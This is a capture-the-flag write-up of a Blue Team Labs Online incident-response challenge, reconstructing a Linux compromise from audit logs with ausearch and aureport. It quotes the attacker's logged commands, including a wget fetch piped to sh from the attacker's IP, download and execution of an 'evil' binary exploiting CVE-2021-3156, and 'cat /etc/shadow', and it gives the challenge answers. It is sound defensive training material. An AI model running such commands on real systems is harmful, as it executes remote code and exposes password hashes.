



# Injection Series Part 3 | Blue Team Labs Online

**Challenge:** [Paranoid](https://blueteamlabs.online/home/challenge/paranoid-e5e164befb)
**Type:** Incident Response
**Investigator:** *Samir Aliguliyev*
**Status:** ✅ Complete

---

## Scenario

An account was compromised and used to gain access to a system. The attacker performed enumeration, escalated to root using a known vulnerability, and exfiltrated a file. This case walks through the attack step by step, from initial access to data theft.

## Tools Used

| Tool | Purpose |
|------|---------|
| **ausearch** | Search audit logs for specific events |
| **aureport** | Summarize audit log data into readable reports |

---

## Findings - Q&A

### 1. Compromised Account

**Q: What account was compromised?**

Using the `ausearch` tool with the key `USER_LOGIN`, we can see a login event with `acct=btlo`.



**A:** `btlo`

---

### 2. Initial Access Attack Type

**Q: What attack type was used to gain initial access?**

The logs show a large number of login attempts in a very short time window - a classic sign of a brute force attack.

**A:** `Brute Force`

---

### 3. Attacker's IP Address

**Q: What is the attacker's IP address?**

The same login event from question 1 also shows `addr=192.168.4.155`.

**A:** `192.168.4.155`

---

### 4. Enumeration Tool

**Q: What tool was used to perform system enumeration?**

Running `aureport --tty -if audit.log` shows the commands typed on the system. Among them is:

```
wget -O - http://192.168.4.155:8000/linpeas.sh | sh
```

LinPEAS is a well-known script that scans Linux systems for misconfigurations and privilege escalation opportunities.



**A:** `LinPEAS`

---

### 5. Binary and PID Used for Root

**Q: What is the name of the binary and PID used to gain root?**

Using `aureport --tty` again, we see a sequence of commands: `whoami`, downloading the file with `wget http://192.168.4.155:8000/evil.tar.gz`, running `./evil 0`, and then `whoami` again.

- The first `whoami` shows `uid=1001` - a normal, non-root user.
- Right before running `./evil 0`, the user is still `uid=1001`.
- After running `./evil 0`, the next `whoami` shows `uid=0` - meaning the user is now root.

This confirms the binary `evil` was used to escalate privileges to root.

To find its PID, we run:

```
aureport -p -if audit.log | grep evil
```

This shows PID `829992`.


**A:** `evil, 829992`

---

### 6. CVE Exploited

**Q: What CVE was exploited to gain root access?**

**A:** `CVE-2021-3156`

---

### 7. Vulnerability Type

**Q: What type of vulnerability is this?**



**A:** `Heap-Based Buffer Overflow`

---

### 8. Exfiltrated File

**Q: What file was exfiltrated once root was gained?**

After gaining root access, the attacker read the system's password file with `cat /etc/shadow`.

**A:** `/etc/shadow`

---
